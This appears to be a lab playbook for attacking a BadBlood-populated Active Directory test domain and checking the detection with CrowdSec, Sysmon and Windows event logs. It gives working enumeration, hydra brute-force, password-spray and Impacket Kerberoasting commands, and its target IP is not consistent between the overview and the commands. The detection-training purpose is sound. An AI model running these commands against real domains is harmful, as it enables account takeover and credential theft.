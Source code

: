 # Active Directory Attack Playbook (Using BadBlood Users)

## **Overview**

- **Target:** Active Directory Server: Windows Server 2022 Datacenter Evaluation
  - IP Address: `192.168.10.10`
  - Domain: `soclab.local`
  - Vulnerable Users: Populated by **BadBlood**

- **Attacker:** Kali Linux
  - IP Address: `192.168.20.30`

- **Network architecture:** Both machines are connected and go through **pfSense** for monitoring and CrowdSec integration, but in different subnet.

---

## **1. Identify BadBlood Users**

### From the Active Directory Server:

Log into the AD server and list the users generated by **BadBlood**:

```powershell
Get-ADUser -Filter * | Select-Object Name, SamAccountName
```

### From the Kali Linux Machine:

Enumerate users via LDAP (replace values accordingly):

```bash
ldapsearch -x -h 192.168.10.50 -D "user@soclab.local" -W -b "dc=soclab,dc=local"
```

**Objective:** Identify target users with weak or known passwords.

---

## **2. Enumerate Active Directory (LDAP/SMB)**

### Using **enum4linux**

```bash
enum4linux -a 192.168.10.50
```

### Using **rpcclient** (SMB enumeration)

```bash
rpcclient -U "guest" 192.168.10.50
```

List available users:

```bash
querydispinfo
```

**Objective:** Gather information about domain users, shares, and policies.

---

## **3. Brute-Force AD Accounts**

### SMB Brute-Force (Weak Passwords)

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt smb://192.168.10.50
```

### LDAP Brute-Force

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt ldap://192.168.10.50
```

**Objective:** Identify vulnerable accounts with weak passwords.

---

## **4. Password Spray Attack**

Simulate a slow password spray (avoid account lockout):

```bash
crackmapexec smb 192.168.10.50 -u /usr/share/wordlists/common_users.txt -p Welcome2024
```

**Objective:** Detect users with predictable passwords without triggering lockout.

---

## **5. Kerberoasting Attack (Steal Service Account Hashes)**

Ensure **Impacket** is installed:

```bash
sudo apt install python3-impacket
```

Run the **Kerberoasting** attack:

```bash
GetUserSPNs.py soclab.local/user:Password123 -request
```

**Objective:** Extract service account hashes for offline cracking.

---

## **6. Analyze Detection (CrowdSec + Sysmon + Windows Event Logs)**

1. **Sysmon (Windows)**:
    - Event ID **4625**: Failed Logon Attempts
    - Event ID **4769**: Kerberos TGS Requests

2. **CrowdSec Alerts**:
    - Monitor the dashboard for IP bans.
    - Check active decisions:

    ```bash
    sudo cscli decisions list
    ```

3. **Windows Event Viewer**:
    - Security > Audit Failure (Event ID 4625, 4740)

**Objective:** Confirm detection and analyze attack visibility.

---

## **7. Next Steps**

- Perform **Lateral Movement** (e.g., **Pass-the-Hash**).
- Test **LDAP Injection** and privilege escalation.
- Monitor logs for **CrowdSec bans** and firewall blocks.



